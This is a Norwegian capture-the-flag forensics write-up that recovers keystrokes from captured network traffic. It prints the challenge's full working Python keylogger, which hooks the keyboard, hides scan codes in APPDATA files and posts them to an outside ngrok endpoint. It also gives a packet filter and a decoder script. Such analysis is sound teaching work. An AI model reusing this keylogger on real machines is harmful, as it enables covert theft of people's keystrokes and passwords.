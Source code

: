 # Keyscanner
En gøy forensics oppgave med litt databehandling der man måtte integrere forståelse av nettverkslogger med et script som sender `http`-requests. 

# Oppgave av Vealending 
Our CSIRT recently discovered a keylogger running on one of our systems.
They've managed to capture the network traffic containing the keylogger's activity and the offending script itself.
Can you figure out what information was compromised?

# Løsning
Vi får nettverkstraffikken `capture.pcapng` og `Keylogger.py`. Ved å lese skriptet får vi informasjon om hvilken server keyloggingsaktiviteten ble sendt til. 
```python
import keyboard
import requests
import ctypes
import uuid
import os


class Logger:
    MAX_FILE_SIZE = 128
    APPDATA_FOLDER = os.getenv("APPDATA")
    FILE_NAME_PREFIX = "."
    FILE_NAME_SUFFIX = ".sc"
    REMOTE_SERVER = "http://c784-89-11-175-7.eu.ngrok.io/l0gg3r_3ndp0in7"
    REMOTE_HEADERS = {"Content-Type": "application/octet-stream"}

    def __init__(self):
        self.file_path = os.path.join(
            self.APPDATA_FOLDER,
            self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
        )
        self.file_size = 0

    def _get_layout(self):
        layout_name = ctypes.create_unicode_buffer(9)
        if ctypes.WinDLL("user32").GetKeyboardLayoutNameW(layout_name):
            return layout_name.value
        return None

    def _write_to_file(self, event):
        with open(self.file_path, "ab") as f:
            try:
                f.write(bytes([event.scan_code]))
            except ValueError:
                pass  # Discard extended scan codes

        self.file_size = os.path.getsize(self.file_path)

        if self.file_size >= self.MAX_FILE_SIZE:
            with open(self.file_path, "rb") as f:
                response = requests.post(
                    self.REMOTE_SERVER,
                    headers=self.REMOTE_HEADERS,
                    params={"layout": self._get_layout()},
                    data=f,
                )

            if response.status_code == 200:
                os.remove(self.file_path)

            self.file_path = os.path.join(
                self.APPDATA_FOLDER,
                self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
            )
            self.file_size = 0

    def start_logging(self):
        keyboard.hook(self._write_to_file)
        keyboard.wait()


if __name__ == "__main__":
    keylogger = Logger()
    keylogger.start_logging()

```
Vi filtrerer slik `http.request.uri matches "/l0gg3r_3ndp0in7"` og lagrer datene som var tilsendt som plaintext. Deretter kan vi lettere utvinne all dataene og lagre det i en fil. For eksempel brukte jeg `cat data.txt | grep "0000  " -A 8 -B 0 > new.txt`.
Et eksempel packet inneholder også `layout` som beskriver hvilken keyboard layout var blitt brukt. Dette er nyttig for å dekryptere dataene ved skankodene.

Python-skriptet blir:
```python
scan_codes = {
    "02": "1",
    "03": "2",
    "04": "3",
    "05": "4",
    "06": "5",
    "07": "6",
    "08": "7",
    "09": "8",
    "0a": "9",
    "0b": "0",
    "0c": "+",
    "0d": "\\",
    "0e": "<"
    #... osv
}

with open('new.txt') as f:
	for line in f:
		if len(line) < 5: continue
		codes = line.split(' ')
		for code in codes:
			if len(code) > 2: continue
			try:
				print(scan_codes[code], end='')
			except:
				continue
```



